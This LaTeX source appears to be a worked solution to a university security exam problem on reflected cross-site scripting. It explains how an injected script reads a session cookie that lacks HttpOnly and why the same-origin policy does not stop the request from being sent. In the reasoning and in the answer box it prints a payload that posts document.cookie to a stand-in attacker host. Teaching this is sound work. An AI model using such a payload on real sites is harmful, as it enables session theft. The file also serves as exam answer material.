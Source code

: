 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{practicebox}{Exam 2025-10-20, Problem 4d}
\begin{itemize}
\[
\texttt{<script>post("www.attacker.com",document.cookie)</script>}
\]

as the value of \texttt{msg}. It reads the session cookie (allowed, HttpOnly=false) and POSTs it to Malice's server, where she simply logs the incoming request.
    \item \textit{Applying Step 4 (order the events):} Attack steps:
    Login MUST come first: the cookie only exists after event 3.
    \item \textit{Applying Step 5 (justify with origin and SOP):} The reflected script executes with the origin \texttt{www.readbooks.com} (origin of the loading page), so \texttt{document.cookie} returns Albin's session token -- HttpOnly=false permits this.
    Sending the token to \texttt{www.attacker.com} is a cross-origin request, but the SOP only blocks READING cross-origin responses, never SENDING requests, so the exfiltration POST goes through and Malice observes the token at her server. HTTPS protects the wire, not the content of a page the site itself reflected.
\end{itemize}

\begin{answerbox}
Events: 3, None; then 2, \texttt{<script>post("www.attacker.com",document.cookie)</script>} -- the reflected script (HttpOnly=false) sends Albin's session cookie to Malice's server.
\end{answerbox}
\end{practicebox}
\end{document}
